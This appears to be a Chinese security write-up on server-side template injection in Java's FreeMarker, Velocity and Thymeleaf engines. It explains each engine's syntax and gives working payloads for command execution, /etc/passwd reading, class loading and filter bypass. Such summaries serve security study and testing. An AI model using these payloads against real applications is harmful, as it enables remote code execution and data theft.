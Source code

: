 # 模板注入总结
## 模板注入
模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，其本质是将模板文件和数据通过模板引擎生成最终的HTML代码
如果攻击者可以控制呈现的模板，服务端接受了恶意输入的请求后，未经任何处理就将其作为web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了攻击者插入的可以破坏模板的语句，那么就会产生模板注入类的问题，对服务器产生危害

## Java FreeMarker模板
### 语法
主要有四部分组成：
- 文本，直接输出的部分
- 注释，即<#--comment-->格式不会输出
- 插值(Interpolation)：即${..}或者#{..}格式的部分，将使用数据模型中的部分替代输出
- FTL指令：FreeMarker指令，和HTML标记类似，名字前加#予以区分，不会输出。
```html
<html>
<body>
<#-- 注释部分 -->
<br>
<#-- 下面使用插值 -->
<h1>Welcome ${user} !</h1>
<p>We have these animals:</p>
    <u1>
        <#-- 使用FTL指令 -->
        <#list animals as being>
        　　<li>${being}</li>
        </#list>
    </u1>
</body>
</html>
```

### 利用
new函数，可以创建一个继承自freemarker.template.TemplateModel类的实例，实例化可用的对象来执行命令
```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}

<#-- 需要依赖jython.jar -->
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

api函数，可以访问底层Java Api Freemarker的BeanWrappers，这个内置函数默认不开启，可以通过Configurable.setAPIBuiltinEnabled开启

通过getClassLoader获取类加载器，加载恶意类
```java
<#assign classLoader=object?api.class.getClassLoader()>
${classLoader.loadClass("Evil.class")}
```

任意代码执行
```java
<#assign classLoader=object?api.class.protectionDomain.classLoader>
<#assign clazz=classLoader.loadClass("ClassExposingGSON")>
<#assign field=clazz?api.getField("GSON")>
<#assign gson=field?api.get(null)>
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))>
${ex("calc")}}
```

getResource读取系统任意文件
```java
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

### 绕过
字符串拼接，十六进制编码
```java
<#assign value=("freemarker.templa"+"te.utility.Execute")?new()>${value("ca"+"l\x0063.exe")}
```

## Java Velocity模板
### 语法
- "#"用来标识Velocity的关键字，包括#set、#if 、#else、#end、#foreach、#end、#include、#parse、#macro等
- "\$"用来标识Velocity的变量；如：\$i、\$msg、$TagUtil.options(...)等。
- "{}"用来明确标识Velocity变量；比如在页面中，页面中有一个\$someonename，此时，Velocity将把someonename作为变量名，若我们程序是想在someone这个变量的后面紧接着显示name字符，则上面的标签应该改成${someone}name。
- "!"用来强制把不存在的变量显示为空白。如：当找不到username的时候，\$username返回字符串"\$username"，而\$!username返回空字符串""

### 利用
无回显执行命令
```java
#set ($exp="")
$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")
```

有回显命令执行
```java
#set($engine="")
#set($str=$engine.getClass().forName("java.lang.String"))
#set($chr=$engine.getClass().forName("java.lang.Character"))
#set($proc=$engine.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami"))
$proc.waitFor()
#set($out=$proc.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

### 绕过
字符串拼接
```java
#set ($exp="")
#set ($run="java.lang.Run"+"time")
$exp.getClass().forName(${run}).getRuntime().exec("calc")
```

## Jave Thymeleaf模板
### 语法
- ${...}：变量表达式 —— 通常在实际应用，一般是OGNL表达式或者是Spring EL，如果集成了Spring的话，可以在上下文变量（context variables ）中执行
- *{...}：选择表达式 —— 类似于变量表达式，区别在于选择表达式是在当前选择的对象而不是整个上下文变量映射上执行。
- #{...}：Message (i18n) 表达式 —— 允许从外部源（比如.properties文件）检索特定于语言环境的消息
- @{...}：链接 (URL) 表达式 —— 一般用在应用程序中设置正确的 URL/路径（URL重写）。
- ~{...}：片段表达式 —— Thymeleaf 3.x 版本新增的内容，分段段表达式是一种表示标记片段并将其移动到模板周围的简单方法。 正是由于这些表达式，片段可以被复制，或者作为参数传递给其他模板等等

### 利用
Thymeleaf 不允许动态生成模板（所有模板都必须提前创建）。因此，常见的模板注入利用方式不适用于 Thymeleaf。但是，Thymeleaf 仍有一些特性可被利用

当控制器直接通过模版名返回页面时
```java
@Controller
public class ThymeleafController {
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return  lang ; //template path is tainted
    }
}
```
Thymeleaf会判断该模板名是否包含"::"字符串，并且该字符串后面有内容，然后会进行正则匹配，如果匹配到了__.*__这种模式，就取出__xx__前面部分和xx那部分，最后对xx进行表达式解析（默认为Spring EL），如果能控制作为返回值的模板名，通过构造表达式注入，就能造成命令执行
```java
//PoC
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::ICSL
```

### 绕过
在3.0.12版本中修复了该漏洞

## 总结
本文主要总结了Java常见模板的注入及绕过，绕过方式还可参考表达式注入，对于支持多语句输入的模板，还可根据Java语法，通过其他类方法，如字符串反转、字符串编码解析等进行绕过
